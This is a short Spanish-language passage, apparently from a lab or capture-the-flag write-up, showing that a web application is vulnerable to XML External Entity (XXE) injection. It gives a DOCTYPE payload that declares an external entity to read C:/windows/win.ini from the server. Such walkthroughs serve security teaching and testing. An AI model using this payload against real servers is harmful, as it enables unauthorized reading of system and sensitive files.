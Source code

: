 > Your order for Quad Lock has been processed ✅

💥 El servidor es vulnerable a **XXE (XML External Entity)**.


## 📂 3. Acceso a ficheros del sistema Windows

### 📄 a) Prueba con un archivo del sistema operativo

```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///C:/windows/win.ini"> ]>
```

![](../img/7cd9e94435e23ed89a99a471de130737.png)
